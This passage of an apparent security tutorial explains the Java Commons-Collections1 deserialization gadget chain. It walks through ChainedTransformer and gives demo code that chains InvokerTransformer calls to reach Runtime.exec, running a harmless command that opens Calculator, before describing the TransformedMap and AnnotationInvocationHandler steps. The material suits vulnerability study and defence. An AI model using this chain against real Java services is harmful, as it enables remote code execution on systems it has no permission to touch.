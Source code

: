 ## ChainedTransformer
> `org.apache.commons.collections.functors.ChainedTransformer class is also an implementation class of `Transformer`, but this class maintains a `Transformer` array itself. When calling the `ChainedTransformer` class's `transform` method, it will loop the array, call the `transform` method of each `Transformer` array in turn, and pass the result to the next `Transformer`. Under such a processing mechanism, multiple `Transformers` can be called chained to process objects separately.

<img src="./images/6.png" alt="">

> demo code

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ChainedTransformerDemo {

    public static void main(String[] args) throws ClassNotFoundException{
        // Transformer array
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        // ChainedTransformer instance
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform("ChainedTransformerDemo");
    }
}
```

<img src="./images/8.png" alt="">

# Commons-Collections1-TransformedMap Analysis
> Use the `Decorate` method of `TransformedMap` to set `ChainedTransformer` to the processing method of the `map` decoder. When calling the `put()/setValue()` of `TransformedMap`, the calling method of the `TransformedMap` chain will be triggered.
> Looking for a class that rewrites `readObject`. When deserializing, you can change the value of `map` and locate the `sun.reflect.annotation.AnnotationInvocationHandler` class. This class implements the `InvocationHandler` interface (originally used for `JDK` dynamic proxy for annotation form)

> The constructor of the AnnotationInvocationHandler class has two parameters. The first parameter is the `Class` object of the `Annotation` implementation class, and the second parameter is a `Map` with `key`String` and `value``Object`. It should be noted that the constructor will judge `var1`. If and only if `var1` has only one parent interface and is `Annotation.class`, the two parameters will be initialized in the member attributes `type` and `memberValues`.

